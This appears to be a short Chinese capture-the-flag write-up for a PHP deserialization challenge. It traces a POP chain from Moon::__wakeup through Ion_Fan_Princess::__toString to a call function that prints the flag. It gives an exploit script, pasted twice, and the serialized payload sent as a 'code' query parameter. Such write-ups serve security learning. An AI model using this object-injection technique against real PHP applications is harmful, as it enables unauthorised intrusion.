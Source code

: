 在Ion_Fan_Princess类下的 call函数可以 echo $flag

Ion_Fan_Princess类的__toString可以出发call函数

Moon类 下的 __wakeup可以触发 ____toString



pop链

```
Moon::__wakeup => Ion_Fan_Princess::__toString => Ion_Fan_Princess::call
```



exp

```
 <?php
class Moon{
    public $name;
}

class Ion_Fan_Princess{
    public $nickname="小甜甜";
    
}
$a=new Moon;
$b=new Ion_Fan_Princess;
$a->name=$b;

echo serialize($a);
//  <?php
class Moon{
    public $name;
    
}

class Ion_Fan_Princess{
    public $nickname="小甜甜";
    
}
$a=new Moon;
$b=new Ion_Fan_Princess;
$a->name=$b;

echo serialize($a);
// O:4:"Moon":1:{s:4:"name";O:16:"Ion_Fan_Princess":1:{s:8:"nickname";s:9:"小甜甜";}}
```



payload

```
?code=O:4:"Moon":1:{s:4:"name";O:16:"Ion_Fan_Princess":1:{s:8:"nickname";s:9:"小甜甜";}}
```